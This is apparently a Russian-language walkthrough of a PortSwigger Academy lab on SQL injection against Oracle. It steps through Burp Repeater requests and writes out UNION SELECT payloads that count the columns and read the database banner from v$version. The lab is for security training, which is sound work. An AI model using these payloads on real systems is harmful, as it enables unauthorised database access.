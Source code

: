 Зайдем на предложенный уязвимый ресурс и перейдем на случайную категорию с выбором товаров. Я выбрал `gifts`. И найдем данный запрос в `Proxy` -> `HTTP history` и отправим его в `Repeater`
```
GET /filter?category=Gifts
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/15.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle/pics%20for%20walktrough/1.png)
Проверим, что SQL-инъекция действительно возможна, и уберем значение поля `category`, чтобы не мазолиила глаза
```
GET /filter?category='--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/15.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle/pics%20for%20walktrough/2.png)
Определим количество столбцов в возвращаемой таблице. При следующем запросе нам не выдает ошибку сервиса. Значит, делаем вывод - в таблице 2 столбца
```
GET /filter?category='UNION+SELECT+NULL,NULL+FROM+dual--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/15.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle/pics%20for%20walktrough/3.png)
согласно замечательному читлисту узннаем, что у нас Oracle DB
```
https://portswigger.net/web-security/sql-injection/cheat-sheet
```
и узнаем информацию о сервере
```
GET /filter?category='UNION+SELECT+BANNER,NULL+FROM+v$version-
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/15.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle/pics%20for%20walktrough/4.png)
Обновим страницу в браузере и получим уведомление об успешно выполненной лабораторной работе
